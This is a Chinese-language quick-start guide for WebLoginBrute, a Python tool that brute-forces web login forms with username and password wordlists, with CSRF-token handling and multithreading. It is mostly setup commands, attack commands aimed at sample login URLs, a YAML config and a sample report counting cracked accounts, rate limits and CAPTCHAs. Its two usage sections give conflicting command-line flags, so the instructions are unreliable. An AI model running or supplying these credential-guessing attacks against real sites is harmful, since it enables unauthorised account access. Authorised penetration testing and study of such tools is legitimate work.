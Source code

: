 # 快速入门指南

**版本：0.0.27**

本指南将帮助你快速安装并运行WebLoginBrute。

## 1. 环境要求

- Python 3.8+
- 支持的操作系统: Windows, macOS, Linux

## 2. 安装

首先，克隆项目的最新版本到你的本地机器：

```bash
git clone https://github.com/your-repo/WebLoginBrute.git
cd WebLoginBrute
```

然后，创建并激活虚拟环境（标准做法）：

```bash
python3 -m venv venv
source venv/bin/activate  # Windows下为 venv\Scripts\activate
```

安装所有必需的Python依赖包：

```bash
pip install -r requirements.txt
```

现在，WebLoginBrute已经准备就绪！

## 3. 准备工作

在开始爆破之前，你需要准备两样东西：

-   **目标信息**:
    -   登录表单页面的URL (`--form-url`)
    -   表单提交的目标URL (`--submit-url`)
-   **字典文件**:
    -   一个包含用户名的文本文件 (`--username-file`)
    -   一个包含密码的文本文件 (`--password-file`)

## 4. 运行你的第一次爆破

你可以通过提供最核心的命令行参数来快速启动一次爆破任务。

```bash
python -m webloginbrute \
    --form-url "https://redteamnotes.com/login" \
    --submit-url "https://redteamnotes.com/login/authenticate" \
    --username-file "wordlists/users.txt" \
    --password-file "wordlists/passwords.txt"
```

程序将会启动，并使用默认的配置（例如5个并发线程）开始爆破。

## 5. 查看结果

任务运行期间，你会在控制台看到实时的进度信息。任务结束后，会打印一份详细的统计报告，如下所示：

```
==================================================
                暴力破解任务完成
==================================================
 概要信息
   - 总耗时: 123.45 秒
   - 总尝试次数: 1000
   - 平均速率: 8.10 次/秒
--------------------------------------------------
 结果分析
   - 成功破解: 1
   - 遭遇频率限制: 5
   - 检测到验证码: 0
--------------------------------------------------
 错误统计
   - 超时错误: 2
   - 连接错误: 1
   - HTTP错误: 0
   - 其他错误: 0
   - 内部重试: 8
--------------------------------------------------
 性能指标
   - 平均响应时间: 0.150 秒
   - 峰值内存使用: 45.67 MB
==================================================
```

同时，在项目根目录下会生成一个 `logs/` 目录，其中包含了本次任务的详细日志文件和审计日志文件。

## 下一步

恭喜你完成了第一次爆破！现在你可以探索更高级的功能了：

-   学习如何使用 **[YAML配置文件](Configuration.md)** 来管理复杂的任务。
-   了解不同的 **[高级功能](Advanced-Features.md)**，例如对抗级别和进度恢复。
-   深入探索项目的 **[架构设计](Architecture.md)**。

## 基本使用

### 1. 准备字典文件

首先，你需要准备两个字典文件：
- `users.txt` - 包含用户名列表
- `passwords.txt` - 包含密码列表

### 2. 基本命令

```bash
# 最简单的用法
python -m webloginbrute \
  --form https://example.com/login \
  --submit https://example.com/login \
  --users users.txt \
  --passwords passwords.txt
```

### 3. 带CSRF Token的登录

如果目标网站使用CSRF保护：

```bash
python -m webloginbrute \
  --form https://example.com/login \
  --submit https://example.com/login \
  --users users.txt \
  --passwords passwords.txt \
  --csrf csrf_token
```

### 4. 使用配置文件

创建 `config.yaml` 文件：

```yaml
form: "https://example.com/login"
submit: "https://example.com/login"
users: "users.txt"
passwords: "passwords.txt"
csrf: "csrf_token"
threads: 10
timeout: 30
verbose: true
```

然后运行：

```bash
python -m webloginbrute --config config.yaml
``` 